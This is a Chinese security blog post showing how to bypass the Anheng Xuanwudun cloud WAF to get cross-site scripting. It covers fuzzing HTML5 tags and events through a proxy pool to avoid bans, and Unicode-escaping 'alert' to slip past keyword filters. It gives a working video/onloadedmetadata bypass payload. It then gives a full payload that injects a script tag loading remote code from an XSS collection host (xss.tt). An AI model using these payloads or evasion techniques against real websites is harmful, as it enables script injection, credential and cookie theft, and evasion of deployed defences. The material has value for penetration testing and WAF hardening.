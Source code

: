 ```yaml
---
title: XSS bypass 安恒玄武盾
abbrlink: 34838
date: 2019-06-10 17:42:05
categories: 网络安全
tags:
- XSS
---
```


*本文原发于星盟微信公众号 <https://mp.weixin.qq.com/s/3Qz-ccL2Ynf1YnBlBxjgCQ> , 博客转自本人仅做备份用途*

## 起因 

最初发现来自实验室的小伙伴,但是仅限于弹窗,后来发现这种类型的payload构造思路来自[XSS挑战第一期Writeup](<http://www.anquan.us/static/drops/papers-894.html>)和[XSS挑战第二期Writeup](<http://www.anquan.us/static/drops/papers-938.html>)以及使用了fuzz的一些小技巧,可以实现任意js代码执行.

绕云waf简单的方式就是绕过cdn,找真实ip,翻一下历史解析记录基本都能找到,也有一些工具,比如我在[另一篇文章](<https://m09ic.top/posts/48529/>)收集的[fuckcdn](<https://github.com/Tai7sy/fuckcdn>)

有些时候绕不过去cdn,又存在xss漏洞.报告里要是不能验证漏洞就等于没有漏洞,那就只能硬怼玄武盾了.

<!--more-->

### fuzz起手


最近一次测试是在今年四月份,最近手里没网站测试了,很多东西只能靠口诉了.

先上最终payload,payload不唯一,可以有无限多种变形.

```
6666666"> <video hidden="hidden" onloadedmetadata="[1].find(\u0061lert)" src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>
```

大佬们应该一眼就看出来问题了.

玄武盾拦截的截图:

![1](1.png)

如果payload中存在`onerror=,onload=`这些事件,`<img>,<script>`这些标签或者`alert,javascript`这些敏感词,就会弹出玄武盾.

能fuzz就不手测,如果被ban了ip就上代理池.好像burpsuite不支持代理池,所以简单的fuzz自己写个脚本调用下代理池就好了.

推荐一个[开源的代理池](<https://github.com/qiyeboy/IPProxyPool>),有官方提供的dockerfile(我之前使用的时候是有的,刚出去找没找到,不过手动搭建也很快),一键搭建.

玄武盾对常见关键字过滤的还是挺全的.但是直接fuzz一下就可以发现,比如`<video>,<canvas`这些html5标签不会触发玄武盾.html5普及都这么多年了,玄武盾还没更新到html5,确实无语.

html5标签大概有100多个,可以用我收集的[html5标签字典](<https://github.com/M09Ic/mywordlist/blob/master/html_tags.txt>).

使用html5进行的xss有不少方法,以html5与xss到google搜索一下就可以找到很多相关的文章,还有一些靶场.

比如[HTML5_Security_Cheat_Sheet](<https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/HTML5_Security_Cheat_Sheet.md>)与[html5sec](<https://html5sec.org/>),这里就不多说了.

比较容易用来构造xss的标签有`video`.

随手插入一个`<video src="http://www.runoob.com/try/demo_source/movie.mp4 " ></video>`,成功

既然html5标签都没过滤,那么html5的事件99%也不会过滤.直接fuzz全部html事件.[html5事件字典在这](<https://github.com/M09Ic/mywordlist/blob/master/html_event.txt>)

很快就找到了比如:`onloadedmetadata`(好像是余弦大佬提出的)不需要额外的交互,打开网站.当在指定音视频（audio/video）的元数据（如分辨率和时长）加载后触发.

记得把video标签加上hidden属性.不然动静太大了.

还有一些其他可用的video的事件,请见[他山之石 | 对 XSS 的一次深入分析认识](<https://www.freebuf.com/articles/web/195507.html>)

### 编码绕过

虽然绕过了关键字检测,但是如果直接用`alert()`还是会触发玄武盾.

这里就需要一个2014年乌云大佬们演示过的方法了.

通过数组实例的`find()`方法,用于找出第一个符合条件的数组成员.

`find()`的参数是一个回调函数.验证漏洞用`alert`即可.

当然`alert`关键字已经被过滤,但是这里输入点是在js代码里面,浏览器遇到js代码会调用js解释器,所以将`alert` js编码为`\u0061lert`.稍微降低下payload长度,所以只编码一个字符就可以了.

这里需要详细解释下:

浏览器首先会用HTML解析器对HTML文档进行词法解析,也就是说如果遇到HTML实体编码,会将其解码,但是注意,解码后并不会当做一个标签,也就是说,类似`&#x3c;&#x76;&#x69;&#x64;&#x65;&#x6f;&#x3e;`(`<video>`)这样的标签是不会解释的,但是在数据内部,比如`<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;: alert()" >`(`<a href="javascript: alert()" >`)则能执行js.

接着浏览器会调用js解析器对js脚本进行解释,如果遇到url编码,会调用url解析器进行解码.

如果js解析器遇到了js编码,且在字符串中,也就是`\u****`类型的,则会将其js解码后正常执行js代码需要注意的是比如引号,双引号这些控制字符就算被解码了,也不能生效.也就是说,不能通过js编码逃逸引号.

所以,最终事件内payload为:

`[1].find(\u0061lert)`

### 成功执行

发送payload:

![2](2.png)

成功执行,绕过玄武盾.

当然不能仅仅是弹窗,完整的执行任意js代码的payload类似:

```
[1].find(function(){with(`docom'|e|'nt`);;body.appendChild(createElement('script')).src='http://xss.tt/XA'})
```

在最开头的两篇文章中偷来的,手动滑稽.

中间如果有被过滤的关键字,js编码下即可.

完美绕过玄武盾执行任意js代码.